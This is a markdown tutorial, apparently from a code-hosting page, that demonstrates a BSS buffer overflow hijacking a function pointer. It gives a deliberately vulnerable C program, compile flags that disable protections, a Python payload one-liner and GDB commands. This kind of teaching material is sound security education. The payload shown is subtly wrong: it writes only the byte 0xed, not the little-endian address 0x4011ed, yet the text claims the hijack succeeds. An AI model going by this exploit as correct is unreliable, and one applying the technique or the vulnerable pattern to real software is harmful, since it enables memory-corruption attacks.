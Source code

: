 
### 🧪 Objective:

Show how a **buffer overflow** can overwrite a **function pointer** stored in the global BSS segment, hijacking the control flow.

---

### 📝 1. Source Code (`bss_overflow.c`)

```c
#include <stdio.h>
#include <string.h>

// Global buffer and function pointer (both uninitialized — in BSS)
char buffer[32];
void (*func_ptr)();

void safe_function() {
    printf("✅ Safe function executed.\n");
}

void hacked_function() {
    printf("🚨 Hacked! Buffer overflow in BSS hijacked control flow.\n");
}

int main() {
    func_ptr = safe_function;

    // Print addresses to assist crafting the exploit
    printf("buffer        @ %p\n", buffer);
    printf("func_ptr      @ %p\n", &func_ptr);
    printf("safe_function @ %p\n", safe_function);
    printf("hacked_function @ %p\n", hacked_function);

    FILE *f = fopen("input.bin", "rb");
    if (!f) {
        perror("input.bin");
        return 1;
    }

    size_t n = fread(buffer, 1, 40, f);  // overflow happens here
    fclose(f);

    printf("Read %zu bytes\n", n);
    printf("Calling func_ptr...\n");

    func_ptr();  // may be hijacked

    return 0;
}
```

---

### ⚙️ 2. Compile with Insecure Flags

```bash
gcc -fno-stack-protector -z execstack -no-pie -o bss_overflow bss_overflow.c
```

> These flags ensure:
>
> * No stack canary (`-fno-stack-protector`)
> * Executable memory for injected shellcode (not needed here but realistic)
> * No position-independent execution (`-no-pie`) — so addresses are predictable

---

### 🧠 3. Understand the Memory Layout

Run the program once to get addresses:

```bash
./bss_overflow
```

Example output:

```
buffer        @ 0x404080
func_ptr      @ 0x4040a0
safe_function @ 0x4011d6
hacked_function @ 0x4011ed
```

These addresses are fixed with ASLR disabled.

---

### 🛠️ 4. Create Exploit Payload

We need to:

* Fill `buffer` (32 bytes)
* Overwrite `func_ptr` (8 more bytes on 64-bit systems)
* Use address of `hacked_function`, e.g., `0x4011ed`

Convert to little-endian:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*32 + b"\xed\x00\x00\x00\x00\x00\x00\x00")' > input.bin

```

---

### 🚀 5. Run Exploit

```bash
./bss_overflow < input.bin
```

Expected output:

```
Read 40 bytes
Calling func_ptr...
🚨 Hacked! Buffer overflow in BSS hijacked control flow.
```

---

### 🔍 6. Debugging with GDB (Optional but Educational)

```bash
gdb ./bss_overflow
(gdb) break main
(gdb) run < input.bin
(gdb) x/8xb 0x404080     # View buffer
(gdb) x/gx 0x4040a0      # View func_ptr
```


